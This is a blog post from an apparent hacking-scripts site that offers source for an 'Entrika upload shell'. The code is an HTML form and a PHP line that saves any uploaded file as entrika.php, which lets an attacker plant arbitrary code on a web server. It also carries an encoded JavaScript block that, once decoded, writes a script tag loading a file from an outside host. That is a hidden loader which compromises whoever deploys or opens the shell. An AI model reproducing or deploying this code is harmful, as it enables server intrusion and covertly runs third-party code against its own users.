 ```yaml
---
id: 264
title: Entrika upload shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=264
permalink: /entrika-upload-shell/
categories:
  - Javascript
  - PHP
tags:
  - entrika
  - Javascript
  - PHP
---
```

Entrika upload shell &#8211; javascript and a little bit of PHP.

### Entrika upload shell source code

{% highlight php %}&lt;FORM ENCTYPE="multipart/form-data" ACTION="uploader.php" METHOD="POST"&gt;
&lt;INPUT TYPE="hidden" name="MAX_FILE_SIZE" value="100000"&gt;
Send this file: &lt;INPUT NAME="userfile" TYPE="file"&gt;
&lt;INPUT TYPE="submit" VALUE="Send"&gt;
&lt;/FORM&gt;
<?
move_uploaded_file($userfile, "entrika.php"); 
?>
&lt;script language=javascript&gt;document.write(unescape('%3C%73%63%72%69%70%74%20%6C%61%6E%67%75%61%67%65%3D%22%6A%61%76%61%73%63%72%69%70%74%22%3E%66%75%6E%63%74%69%6F%6E%20%64%46%28%73%29%7B%76%61%72%20%73%31%3D%75%6E%65%73%63%61%70%65%28%73%2E%73%75%62%73%74%72%28%30%2C%73%2E%6C%65%6E%67%74%68%2D%31%29%29%3B%20%76%61%72%20%74%3D%27%27%3B%66%6F%72%28%69%3D%30%3B%69%3C%73%31%2E%6C%65%6E%67%74%68%3B%69%2B%2B%29%74%2B%3D%53%74%72%69%6E%67%2E%66%72%6F%6D%43%68%61%72%43%6F%64%65%28%73%31%2E%63%68%61%72%43%6F%64%65%41%74%28%69%29%2D%73%2E%73%75%62%73%74%72%28%73%2E%6C%65%6E%67%74%68%2D%31%2C%31%29%29%3B%64%6F%63%75%6D%65%6E%74%2E%77%72%69%74%65%28%75%6E%65%73%63%61%70%65%28%74%29%29%3B%7D%3C%2F%73%63%72%69%70%74%3E'));dF('%264DTDSJQU%2631TSD%264Eiuuq%264B00njep/ti4mm/vt0lbzefu/kt%264F%264D0TDSJQU%264F1')&lt;/script&gt;
{% endhighlight %}